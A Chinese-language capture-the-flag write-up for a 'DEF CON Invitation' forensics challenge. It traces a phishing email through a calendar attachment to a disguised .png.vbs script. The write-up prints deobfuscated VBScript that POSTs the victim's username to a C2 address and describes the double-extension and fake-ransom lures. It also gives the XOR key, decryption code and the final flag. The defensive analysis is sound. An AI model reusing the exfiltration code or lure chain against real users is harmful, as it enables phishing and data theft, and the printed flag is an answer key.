


# DEF CON Invitation

## 题目简述

题目给出一封 `DEFCON Finals Invitation.eml`，要求从伪装成赛事邀请的邮件中追踪恶意附件、分析下载的 VBS 载荷，并恢复被异或加密的 PNG。邮件正文中的 DEF CON 官网和 Project SEKAI 社交链接都是干扰项，真正的入口是附件 `dc31-invite.ics`：日历事件中的 “Venue Maps” 链接会诱导下载伪装成图片的 `venue-map.png.vbs`。



这是一条完整的脚本恶意载荷链，而不是单纯的邮件文件取证：

```text
EML 邮件
  -> ICS 日历中的场地地图链接
  -> venue-map.png.vbs
  -> 下载 defcon-flag.png.XORed
  -> 向 C2 提交用户名并取得异或密钥
  -> 恢复 PNG
```

## 解题过程

### 定位邮件中的真实入口

先在隔离环境中查看 EML 的 MIME 结构和附件，不直接执行其中的脚本。邮件附带的日历事件声称提供 Caesars Forum 场地地图，网页实际下载的是带双重扩展名的 VBS。`png.vbs` 只是社会工程伪装，Windows 最终会按 `.vbs` 解释执行。

脚本前半段会读取注册表、弹出“数据泄露”和比特币付款提示。这些行为用于制造勒索软件假象，不参与 flag 恢复。真正有用的是两个解码函数：

```vbscript
Function OwOwO(h)
  Dim a : a = Split(h)
  For i = 0 To UBound(a)
      a(i) = Chr("&H" & a(i))
  Next
  OwOwO = Join(a, "")
End Function
```

`OwOwO` 将以空格分隔的十六进制字节还原为 ASCII；`Nautilus` 则借助 `Msxml2.DOMDocument` 完成 Base64 解码。按脚本的数据流依次处理 `Replace`、十六进制解码、字符串反转和 Base64 解码，可以得到两个关键结果：

```text
下载对象：defcon-flag.png.XORed
落盘位置：c:\temp\defcon-flag.png.compromised
```

文件名已经提示载荷使用重复密钥 XOR 加密。用 PNG 文件头试探时，能恢复出密钥前缀，但仅凭 8 字节魔数无法得到完整密钥。

### 解开末段脚本并取得密钥

VBS 最后一段被包在长 `Execute(...)` 表达式中。静态分析时把 `Execute` 临时替换成 `WScript.Echo`，运行解码逻辑而不执行其结果，即可打印真实代码：

```vbscript
Dim http: Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
Dim url: url = "http://20.106.250.46/sendUserData"

With http
  Call .Open("POST", url, False)
  Call .SetRequestHeader("Content-Type", "application/json")
  Call .Send("{""username"":""" & strUser & """}")
End With
```

接口接收当前用户名。普通用户名只返回占位密钥 `compromised`，而用户名 `admin` 对应完整密钥：

```json
{
  "key": "02398482aeb7d9fe98bf7dc7cc_ITDWWGMFNY",
  "msg": "Data compromised!"
}
```

因此无需继续猜测 PNG 结构，直接对整个密文循环使用该 ASCII 密钥：

```python
from pathlib import Path

ciphertext = Path("defcon-flag.png.compromised").read_bytes()
key = b"02398482aeb7d9fe98bf7dc7cc_ITDWWGMFNY"
plaintext = bytes(
    value ^ key[index % len(key)]
    for index, value in enumerate(ciphertext)
)
Path("defcon-flag.png").write_bytes(plaintext)
```

恢复出的文件具有正常 PNG 头并能直接打开：



最终得到：

```text
SEKAI{so_i_guess_we'll_get_more_better_next_year-_-}
```

## 方法总结

- 核心技巧：沿 `EML -> ICS -> VBS -> 下载载荷 -> C2` 的执行链逐层静态还原，不被正常链接和勒索弹窗干扰。
- 识别信号：双重扩展名、十六进制/Base64 解码函数、动态 `Execute`、远程下载以及上报用户名都属于脚本载荷的重要行为证据。
- 复用要点：分析脚本混淆时，可以把动态执行入口替换成输出语句，只运行解码器而不运行解码后的载荷；已知文件头只适合验证 XOR 猜想，完整重复密钥仍应从配置或 C2 协议中恢复。
